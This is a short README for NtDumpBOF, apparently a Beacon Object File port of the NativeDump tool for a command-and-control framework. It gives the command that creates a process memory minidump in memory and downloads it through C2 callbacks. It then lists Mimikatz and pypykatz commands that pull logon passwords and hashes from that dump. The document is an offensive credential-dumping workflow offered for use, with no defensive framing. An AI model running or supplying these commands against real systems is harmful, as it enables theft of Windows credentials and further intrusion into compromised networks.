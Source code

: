 # NtDumpBOF

BOF Port of the tool This is just a BOF port of the tool https://github.com/ricardojoserf/NativeDump written by @ricardojoserf.

Import NtDump.cna and run:

```
ntdump <filename>
```
The minidump file will be created in memory and downloaded using the CALLBACK_FILE and CALLBACK_FILE_WRITE.
Once downloaded it will be minidump file will be visible at **View** -> **Download**.

This can subsequently be parsed using Mimikatz

```
mimikatz # sekurlsa::minidump <file path to downloaded minidump file>
mimikatz # sekurlsa::logonpasswords full
```

Or pypykatz

```
pypykatz lsa minidump <file path to downloaded minidump file>
```
